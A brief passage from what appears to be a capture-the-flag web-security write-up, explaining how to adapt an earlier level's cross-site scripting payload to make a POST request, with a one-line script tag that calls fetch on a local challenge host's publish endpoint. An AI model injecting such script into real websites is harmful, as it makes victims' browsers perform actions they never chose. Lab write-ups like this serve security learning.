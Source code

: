 This level is pretty much the same as the previous level, except we need to make a POST request instead of a GET request, so it should be pretty simple to modify the previous level's XSS payload.

```html
<script>fetch("http://challenge.localhost/publish", {method:"POST"})</script>
```